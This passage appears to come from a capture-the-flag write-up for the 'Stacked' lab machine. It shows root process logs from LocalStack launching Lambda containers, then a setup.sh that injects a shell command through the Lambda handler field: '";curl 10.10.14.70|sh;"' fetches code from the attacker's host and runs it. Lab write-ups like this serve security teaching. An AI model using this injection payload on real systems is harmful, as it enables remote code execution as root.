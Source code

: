 ```
2021/09/19 11:40:24 CMD: UID=0    PID=5874   | docker create -i -e DOCKER_LAMBDA_USE_STDIN=1 -e LOCALSTACK_HOSTNAME=172.17.0.2 -e EDGE_PORT=4566 -e _HANDLER=lambda.apiHandler -e AWS_LAMBDA_FUNCTION_TIMEOUT=3 -e AWS_LAMBDA_FUNCTION_NAME=processes -e AWS_LAMBDA_FUNCTION_VERSION=$LATEST -e AWS_LAMBDA_FUNCTION_INVOKED_ARN=arn:aws:lambda:us-east-1:000000000000:function:processes -e AWS_LAMBDA_COGNITO_IDENTITY={} -e NODE_TLS_REJECT_UNAUTHORIZED=0 --rm lambci/lambda:nodejs8.10 lambda.apiHandler
2021/09/19 11:40:24 CMD: UID=0    PID=5873   | /bin/sh -c CONTAINER_ID="$(docker create -i   -e DOCKER_LAMBDA_USE_STDIN="$DOCKER_LAMBDA_USE_STDIN" -e LOCALSTACK_HOSTNAME="$LOCALSTACK_HOSTNAME" -e EDGE_PORT="$EDGE_PORT" -e _HANDLER="$_HANDLER" -e AWS_LAMBDA_FUNCTION_TIMEOUT="$AWS_LAMBDA_FUNCTION_TIMEOUT" -e AWS_LAMBDA_FUNCTION_NAME="$AWS_LAMBDA_FUNCTION_NAME" -e AWS_LAMBDA_FUNCTION_VERSION="$AWS_LAMBDA_FUNCTION_VERSION" -e AWS_LAMBDA_FUNCTION_INVOKED_ARN="$AWS_LAMBDA_FUNCTION_INVOKED_ARN" -e AWS_LAMBDA_COGNITO_IDENTITY="$AWS_LAMBDA_COGNITO_IDENTITY" -e NODE_TLS_REJECT_UNAUTHORIZED="$NODE_TLS_REJECT_UNAUTHORIZED"   --rm "lambci/lambda:nodejs8.10" "lambda.apiHandler")";docker cp "/tmp/localstack/zipfile.28a09a0a/." "$CONTAINER_ID:/var/task"; docker start -ai "$CONTAINER_ID";
2021/09/19 11:40:24 CMD: UID=0    PID=5881   | /bin/sh -c CONTAINER_ID="$(docker create -i   -e DOCKER_LAMBDA_USE_STDIN="$DOCKER_LAMBDA_USE_STDIN" -e LOCALSTACK_HOSTNAME="$LOCALSTACK_HOSTNAME" -e EDGE_PORT="$EDGE_PORT" -e _HANDLER="$_HANDLER" -e AWS_LAMBDA_FUNCTION_TIMEOUT="$AWS_LAMBDA_FUNCTION_TIMEOUT" -e AWS_LAMBDA_FUNCTION_NAME="$AWS_LAMBDA_FUNCTION_NAME" -e AWS_LAMBDA_FUNCTION_VERSION="$AWS_LAMBDA_FUNCTION_VERSION" -e AWS_LAMBDA_FUNCTION_INVOKED_ARN="$AWS_LAMBDA_FUNCTION_INVOKED_ARN" -e AWS_LAMBDA_COGNITO_IDENTITY="$AWS_LAMBDA_COGNITO_IDENTITY" -e NODE_TLS_REJECT_UNAUTHORIZED="$NODE_TLS_REJECT_UNAUTHORIZED"   --rm "lambci/lambda:nodejs8.10" "lambda.apiHandler")";docker cp "/tmp/localstack/zipfile.28a09a0a/." "$CONTAINER_ID:/var/task"; docker start -ai "$CONTAINER_ID";
```

We adjust the `setup.sh` with a new function name to avoid conflict with the earlier created app. We also change the `handler` value to our command injection payload. First we break out of the quotes and add a `;` to each end to make sure the payload runs. As actual payload we use the same `index.html` as above.

`setup.sh`
```
#!/bin/sh

API_NAME="rce"
REGION=eu-west-1
STAGE=test


aws lambda create-function \
    --endpoint=http://s3-testing.stacked.htb \
    --region ${REGION} \
    --function-name ${API_NAME} \
    --runtime nodejs8.10 \
    --handler '";curl 10.10.14.70|sh;"'\
    --memory-size 128 \
    --zip-file fileb://api-handler.zip \
    --role arn:aws:iam::123456:role/irrelevant


LAMBDA_ARN=$(aws lambda list-functions --endpoint=http://s3-testing.stacked.htb --query "Functions[?FunctionName==\`${API_NAME}\`].FunctionArn" --output text --region ${REGION})

aws apigateway create-rest-api \
    --endpoint=http://s3-testing.stacked.htb \
    --region ${REGION} \
    --name ${API_NAME}


API_ID=$(aws apigateway get-rest-apis --endpoint=http://s3-testing.stacked.htb --query "items[?name==\`${API_NAME}\`].id" --output text --region ${REGION})
PARENT_RESOURCE_ID=$(aws apigateway get-resources --endpoint=http://s3-testing.stacked.htb --rest-api-id ${API_ID} --query 'items[?path==`/`].id' --output text --region ${REGION})

aws apigateway create-resource \
    --endpoint=http://s3-testing.stacked.htb \
```